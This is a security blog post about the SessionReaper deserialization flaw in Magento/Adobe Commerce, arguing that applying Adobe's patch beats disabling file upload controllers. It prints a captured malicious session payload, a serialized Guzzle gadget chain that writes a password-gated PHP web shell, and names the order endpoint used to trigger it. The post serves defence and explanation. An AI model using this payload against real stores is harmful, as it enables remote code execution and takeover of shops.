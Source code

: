 ```yaml
---
layout: blog-single
title:  "Shutting Down File Upload Controllers for SessionReaper is futile"
date: October 29, 2025
image: 
tags: [Security, Magento, Adobe Commerce]
related_posts:
---
```


Since Searchlight Cyber published [a technical write up and proof-of-concept for the SessionReaper vulnerability](https://slcyber.io/assetnote-security-research-center/why-nested-deserialization-is-still-harmful-magento-rce-cve-2025-54236/), attackers have been mass scanning Magento / Adobe Commerce stores for vulnerable targets. The first phase of the attack involves uploading a payload containing malicious session data to the server.

```
$ cat pub/media/customer_address/s/e/sess_aly4jr1awshxasfgwwboqeiqn3
_|O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{S:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{S:4:"data";a:3:{S:7:"Expires";i:1;S:7:"Discard";b:0;S:5:"Value";S:161:"<?php if (!hash_equals('4009d3fa8132195a2dab4dfa3affc8d2', md5(md5($_REQUEST['pass'] ?? '')))) { header('Location:404.php'); exit; } system($_REQUEST['cmd']); ?>";}}}S:10:"strictMode";N;S:8:"filename";S:16:"./errors/503.php";S:19:"storeSessionCookies";b:1;}
```
{:.wrap} 

Next, the attacker sends a request to the `/rest/default/V1/guest-carts/:cartId/order` endpoint, manipulating the `savePath` property of the `sessionConfig` object such that the malicious session will be initialized.

To protect against this vulnerability it is critical to apply Adobe's patch which adds validation to the API request handling to control which types of objects can be created, preventing manipulation of the `sessionConfig`.

<!-- excerpt_separator -->

```
diff --git a/vendor/magento/framework/Webapi/ServiceInputProcessor.php b/vendor/magento/framework/Webapi/ServiceInputProcessor.php
index ba58dc2bc7acf..06919af36d2eb 100644
--- a/vendor/magento/framework/Webapi/ServiceInputProcessor.php
+++ b/vendor/magento/framework/Webapi/ServiceInputProcessor.php
@@ -246,6 +246,13 @@ private function getConstructorData(string $className, array $data): array
             if (isset($data[$parameter->getName()])) {
                 $parameterType = $this->typeProcessor->getParamType($parameter);

+                // Allow only simple types or Api Data Objects
+                if (!($this->typeProcessor->isTypeSimple($parameterType)
+                    || preg_match('~\\\\?\w+\\\\\w+\\\\Api\\\\Data\\\\~', $parameterType) === 1
+                )) {
+                    continue;
+                }
+
                 try {
                     $res[$parameter->getName()] = $this->convertValue($data[$parameter->getName()], $parameterType);
                 } catch (\ReflectionException $e) {
```

However, implementing this patch alone does not stop an attacker from performing phase 1 of the attack and uploading the malicious session files. 

I have noticed a lot of discussion about this, with some recommending patching the `Magento\Customer\Controller\Address\File\Upload` class to immediately bail and not run at all.

While I can understand this inclination, it ultimately is the wrong solution to the problem. It is expected that frontend users are able to upload files to the server for some uses cases (as is common functionality with many web applications). In the core Adobe Commerce codebase (not Magento Open Source) there are 3 other frontend controllers that accept file uploads. It is very common functionality in 3rd party extensions such [swissuplabs Order Attachments](https://docs.swissuplabs.com/m2/extensions/order-attachments/).

Ultimately, applying the Adobe patch to prevent abuse is the best solution to the issue. Beyond that, additional validation to the contents of a proposed file upload (for example searching for signatures indicative of malware such as an opening PHP tag) could help prevent these types of uploads from making it to your server. 
